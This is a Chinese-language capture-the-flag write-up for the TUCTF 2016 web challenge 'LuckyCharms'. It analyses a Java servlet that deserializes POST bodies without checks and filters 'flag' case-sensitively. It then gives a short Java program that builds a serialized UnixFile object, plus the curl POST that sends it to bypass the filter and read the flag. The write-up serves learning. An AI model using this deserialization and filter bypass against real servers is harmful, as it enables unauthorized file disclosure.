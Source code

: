 ```yaml
---
layout:     post
title:      "tuctf2016-web-LuckyCharms"
date:       2016-05-30 01:00
category:   writeup
tag:        [tuctf2016,代码审计,文件读取]
---
```

# 题目信息

`score: 200` `type:web,代码审计，文件读取` `source: tuctf2016`

[原题地址](http://146.148.10.175:1033/LuckyCharms) &emsp;[猜解源码](http://github.com/ssst0n3/ctf-wp/blob/master/2016/tuctf/web/LuckyCharms)
&emsp;[题目收集](http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms)

## 题目描述

打开网址，一个简单的网页

![](tuctf2016-LuckyCharms-1.png)

## 知识点

servlet
* web.xml
* init(),doGet(),doPost()

curl使用

# 题目分析

## 查看源代码

页面本身没什么特别的，查看源代码发现一段注释

```
<!DOCTYPE html>
<html>
<body>
Frosted Lucky Charms,
<br>
They're magically delicious!
<br>
<img src="https://upload.wikimedia.org/wikipedia/en/f/ff/Lucky-Charms-Cereal-Box-Small.jpg">
<!-- <a href="/?look=LuckyCharms.java"></a> -->
</body>
</html>
```

## 访问链接

访问`view-source:http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms?look=LuckyCharms.java`,得到`LuckyCharms.java`源代码，由此可知本题为`java代码审计`+`文件内容读取`

![](tuctf2016-LuckyCharms-2.png)

## 分析源码

代码主要是定义了一个读取文件内容的操作，根据windows和unix对大小写是否敏感以及get和post请求的差别进行了区分，设计了一定的过滤规则。我们的任务就是首先分析源码，然后绕过过滤规则

### 定义文件类

定义OSFile类，包含file属性，表示文件名；getFileName函数，在返回文件名之前对文件名做一定的处理

```
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}
```

定义WindowsFile类，继承OSFile，因为windows对大小写不敏感，因此把文件名转换成小写

```
class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}
```

定义UnixFile类，继承OSFile，因为unix对大小写敏感，因此不用转换

```
class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}
```

### 重写doGet(),doPost()

#### 获取文件名

```
OSFile osfile = null;
try {
  //如果将内容以post方式传输，则读取，否则跳至catch
  osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
} catch (Exception e) {
  //Oops, let me help you out there
  //创建windowsFile,注意这里是对大小写不敏感的
  osfile = new WindowsFile();
  if (request.getParameter("look") == null) {
    osfile.file = "charms.html";
  } else {
    osfile.file = request.getParameter("look");
  }
}
```

#### 过滤以及输出文件内容

```
//对'/'进行转义
String f = osfile.getFileName().replace("/","").replace("\\","");

//如果文件名存在'flag'，则过滤
//注意，contains函数是大小写敏感的

if (f.contains("flag")) {
  //bad hacker!
  out.println("You'll Never Get Me Lucky Charms!");
  return;
}

//将文件名转换成小写形式
try {
  Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));
  System.out.print(path);
  String content = new String(java.nio.file.Files.readAllBytes(path));
  out.println(content);
 } catch (Exception e) {
    out.println("Nothing to see here");
 }
```

#### 分析漏洞

我们注意到contains函数是对大小写敏感的，考虑是否能从此绕过

因为get请求创建的是WindowsFile类的对象，因此无法绕过contains()对"flag"的过滤

而UnixFile类没有对文件名进行大小写转换，因此可以使用类似"FLAG"的文件名绕过过滤

而GET请求使用的是WindowsFile类，因此必须通过POST请求传输一个UnixFile对象，该对象的file属性为"FLAG"

#### Exploit
```
import java.io.*;


abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}


public class Hax {

    public static void main(String[] args) {
    UnixFile f = new UnixFile();
        f.file = "FLAG";
    try
    {
        FileOutputStream fileOut = new FileOutputStream("/tmp/Hax.bin");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(f);
            out.close();
            fileOut.close();
            System.out.printf("Serialized data is saved in /tmp/Hax.bin\n");
        }catch(IOException i)
        {
            i.printStackTrace();
        }

    }

}
```

```
$ javac Hax.java && java Hax
Serialized data is saved in /tmp/Hax.bin
$file /tmp/Hax.bin
Hax.bin: Java serialization data, version 5
$ curl -X POST --data-binary @Hax.bin 'http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms'
TUCTF{a_cup_of_joe_keeps_the_hackers_away}
```

# 参考文献

https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2016/TUCTF/web/LuckyCharms
